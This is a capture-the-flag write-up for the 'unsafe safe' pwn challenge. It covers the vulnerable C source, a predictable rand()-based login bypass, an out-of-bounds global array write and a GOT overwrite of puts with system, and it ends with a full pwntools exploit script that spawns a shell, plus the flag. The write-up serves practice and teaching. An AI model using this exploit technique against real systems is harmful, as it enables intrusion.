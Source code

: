 ## unsafe safe

```
Author: zran

So I just turned 17 and decided to make a bank account to deposit my money. This bank stores the money is safes, so it should be safe right?

nc ctf.tcp1p.com 1477
```
**Attachment**: [unsafe.zip](release/unsafe.zip)

We were given a zip file that contain an ELF binary, the source code, and some library file (including the interpreter). 

Here's some information about the binary.

![ELF Information](images/b35b1fb1832507e45563945737ef7a5b9ebbc4aee5b58170f6a1e550e72310e6.png)  

<details close><summary>unsafe.c</summary>
    
```c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <time.h>

unsigned long safes[100] = {7955998170729676800};
char *exit_message = "Have a nice day!";

void init() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
}

void deposit() {
    int index = 0;
    int amount = 0;
    puts("Enter the safe number you want to deposit in (0-100): ");
    scanf("%d", &index);
    puts("Enter the amount you want to deposit: ");
    scanf("%d", &amount);
    safes[index] += amount;
}

void login() {
    unsigned long age, input, password;
    char pet_name[5] = "\0\0\0\0\0";
    puts("Input your age: ");
    scanf("%lu", &age);
    if (age < 17) {
        puts("Sorry, this is not a place for kids");
        exit(0);
    }
    puts("Input your pet name: ");
    scanf("%5c", pet_name);
    srand(time(NULL) * (*(short *)pet_name * *(short *)(pet_name + 2) + age));
    password = rand();
    puts("Input your password: ");
    scanf("%lu", &input);
    if (input != password) {
        puts("Password Wrong!");
        exit(0);
    }
}

int main() {
    init();
    login();
    deposit();
    deposit();
    deposit();
    puts(exit_message);
}
```
</details>

Information about the LIBC:
![LIBC Information](images/342e2a676076e552edce951d049dbf64fa1ebb3da405ea8fa5cad2ae2ebb0105.png)  

The program will call the `login()` function and will ask the user to to input data, including age, the name of a pet, and a password. There's a validation mechanism using `rand()` function to check the input. The randomization seed is also set in this function using the current time as an integer, so we can implement the same in our solver to bypass the validation.

Now, let's take a look at the `deposit()` function. The program will ask the user to input two datas, including a safe number that responsible where the data will be stored at (index based) and the amount or a value that the user want to stored. Because there is no boundaries check on user input for the index of `safes` varaible, it caused an Out Of Bound (OOB) vulnerability that can be exploited to overwrite a value by adding it with the desired value (the user's second input in the `deposit()` function).

The idea I used is to write the string "sh" at index 0 of the global variable `safes`. 
![Write "sh"](images/c6169f592adb8b023e1343f43b4d9740a3780edade867f6925522552b244cf3e.png)  

Then, overwrite the pointer to the string in the global variable `exit_message` at index 100, so it points to the address where "sh" is stored in `safes[0]`. 
![Overwrite strings pointer in exit_message](images/5401f703b841ff84c301134bc9bb20b0ff58a3bc71e9662e2cd45ff229e2238d.png)  

Afterward, overwrite the Global Offset Table (GOT) entry for the `puts()` function with the address of the system function. This way, when the program calls `puts(exit_message)` in the `main()` function, it will inadvertently call the `system()` function with "sh" as it arguments, then shell will be spawned.
![Overwrite puts GOT](images/12126ad77c170ea59ec5a1a9386c4eedc357d48cc06e0b7bee1d5b6a7a044821.png)  

<details open> <summary>exploit.py</summary>

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
from os import path
import sys
import time
from ctypes import CDLL

# ==========================[ Information
DIR = path.dirname(path.abspath(__file__))
EXECUTABLE = "/unsafe"
TARGET = DIR + EXECUTABLE 
HOST, PORT = "ctf.tcp1p.com", 1477
REMOTE, LOCAL = False, False

# ==========================[ Tools
elf = ELF(TARGET)
elfROP = ROP(elf)

# ==========================[ Configuration
context.update(
    arch=["i386", "amd64", "aarch64"][1],
    endian="little",
    os="linux",
    log_level = ['debug', 'info', 'warn'][2],
    terminal = ['tmux', 'split-window', '-h'],
)

# ==========================[ Exploit

def exploit(io, libc=null, cdll=null):
    if LOCAL==True:
        #raw_input("Fire GDB!")
        if len(sys.argv) > 1 and sys.argv[1] == "d":
            choosen_gdb = [
                "source /home/mydata/tools/gdb/gdb-pwndbg/gdbinit.py",     # 0 - pwndbg
                "source /home/mydata/tools/gdb/gdb-peda/peda.py",          # 1 - peda
                "source /home/mydata/tools/gdb/gdb-gef/.gdbinit-gef.py"    # 2 - gef
                ][0]
            cmd = choosen_gdb + """
            # b *login+0xa9
            # b *login+0xcd
            # b *deposit+0x4a
            # b *deposit+0xae
            b *main+0x40
            """
            gdb.attach(io, gdbscript=cmd)

    age = 20
    pet_name = b"\x00"*4

    io.sendlineafter(b": ", str(age).encode())
    io.sendlineafter(b": ", pet_name)
    seed = int(time.time()) * (0 * 0xa00 + age) & 0xFF_FF_FF_FF
    cdll.srand(seed)
    current_password = cdll.rand()
    io.sendlineafter(b": ", str(current_password).encode())

    where = 0
    what = u16(b"sh")
    io.sendlineafter(b": ", str(where).encode())
    io.sendlineafter(b": ", str(what).encode())

    where = (elf.symbols["exit_message"] - elf.symbols["safes"])//8
    what = 0x2058
    io.sendlineafter(b": ", str(where).encode())
    io.sendlineafter(b": ", str(what).encode())

    where = (elf.got["puts"] - elf.symbols["safes"])//8
    what = libc.symbols["system"] - libc.symbols["puts"]
    io.sendlineafter(b": ", str(where).encode())
    io.sendlineafter(b": ", str(what).encode())

    io.interactive()

if __name__ == "__main__":
    io, libc = null, null

    if args.REMOTE:
        REMOTE = True
        io = remote(HOST, PORT)
        
    else:
        LOCAL = True
        io = process(
            [TARGET, ],
            env={
            #     "LD_PRELOAD":DIR+"/___",
            #     "LD_LIBRARY_PATH":DIR+"/___",
            },
        )
    libc = ELF("./libc.so.6")
    cdll = CDLL("/lib/x86_64-linux-gnu/libc.so.6")
    exploit(io, libc, cdll)
``` 
</details>

![PWN3D](images/007b0d07897266ddc54234c7ca6aaee53983449902b014a30203601f46661f92.png)  

    
**Flag:** TCP1P{bYp45s_tH3_l091n_4nd_0v3rwR1te_pUt5_t0_sy5t3m_4Nd_g3t_5hELl}